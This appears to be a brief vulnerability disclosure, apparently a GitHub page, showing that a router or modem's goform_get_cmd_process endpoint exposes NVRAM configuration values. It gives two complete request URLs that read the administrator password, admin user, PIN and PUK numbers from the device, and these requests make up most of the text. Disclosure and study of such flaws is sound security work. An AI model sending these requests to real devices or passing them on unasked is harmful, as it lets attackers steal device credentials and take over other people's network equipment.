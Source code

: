 It’s possible to read arbitrary values from the configuration table in the device NVRAM. A request like the following will read the value of the admin_Password field, which – you may be able to get – is the administrator password for the device.         

![image](https://user-images.githubusercontent.com/25066959/208161200-d0be214e-ab70-4853-b68b-d9af9d21e5ec.png)


```
http://192.168.199.1/goform/goform_get_cmd_process?cmd=admin_Password&multi_data=1
```

![image](https://user-images.githubusercontent.com/25066959/208161155-dd37a5bb-87c2-4d70-9e8a-3f1b821c23e3.png)

![image](https://user-images.githubusercontent.com/25066959/208161010-ddce8cc0-7ab4-40c9-83db-cfbf57907631.png)

```
http://192.168.199.1/goform/goform_get_cmd_process?isTest=false&cmd=modem_main_state,puknumber,
pinnumber,psw_fail_num_str,login_lock_time,admin_user,admin_Password&multi_data=1&_=0
```

![image](https://user-images.githubusercontent.com/25066959/208161356-7c9103ce-5543-4b89-9ebf-f84282c2d26f.png)

![image](https://user-images.githubusercontent.com/25066959/208161411-67c7d073-375f-48e1-84f3-9f6264a0b765.png)
